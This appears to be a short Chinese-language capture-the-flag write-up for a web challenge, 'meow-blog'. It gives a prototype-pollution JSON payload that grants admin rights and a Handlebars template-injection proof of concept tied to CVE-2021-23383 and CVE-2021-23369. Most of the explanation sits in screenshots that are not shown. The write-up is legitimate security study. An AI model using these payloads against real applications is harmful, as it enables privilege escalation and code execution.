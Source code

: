 ## Web
### meow-blog

 原型链污染，获取admin权限
 
![](attachments/Pasted%20image%2020231017203527.png)

`{"username":"wum0nster","password":"123","submit":[{"__proto__":{"user":{"id":1,"username":"admin","style":"wum0nster"}}},"1"]}`

模板注入漏洞点

![](attachments/Pasted%20image%2020231018083914.png)

![](attachments/Pasted%20image%2020231018084420.png)

[Prototype Pollution in handlebars · CVE-2021-23383 · GitHub Advisory Database](https://github.com/advisories/GHSA-765h-qjxv-5f44)

[Remote Code Execution (RCE) in handlebars | CVE-2021-23369 | Snyk](https://security.snyk.io/vuln/SNYK-JS-HANDLEBARS-1056767)

```js
<script src="https://cdn.jsdelivr.net/npm/handlebars@latest/dist/handlebars.js"></script> 
<script> 
// compile the template 
var s = ` 
{{#with (__lookupGetter__ "__proto__")}} 
{{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
{{#with ../constructor.prototype}} 
{{../../constructor.defineProperty . "hasOwnProperty" ..}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{#with "constructor"}} 
{{#with split}} 
{{pop (push "alert('Vulnerable Handlebars JS when compiling in strict mode');")}} 
{{#with .}} 
{{#with (concat (lookup join (slice 0 1)))}} 
{{#each (slice 2 3)}} 
{{#with (apply 0 ../..)}} 
{{.}} 
{{/with}} 
{{/each}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{/with}} 
`; 
var template = Handlebars.compile(s, { 
strict: true 
}); 
// execute the compiled template and print the output to the console console.log(template({})); 
</script>
```

[运行时参数 | Handlebars中文文档 | Handlebars中文网 (handlebarsjs.cn)](https://www.handlebarsjs.cn/api-reference/runtime-options.html#%E6%8E%A7%E5%88%B6%E5%8E%9F%E5%9E%8B%E8%AE%BF%E9%97%AE%E7%9A%84%E9%80%89%E9%A1%B9)

在题目环境中升级到了4.7.7，禁用原本的一些键

![](attachments/Pasted%20image%2020231018093750.png)





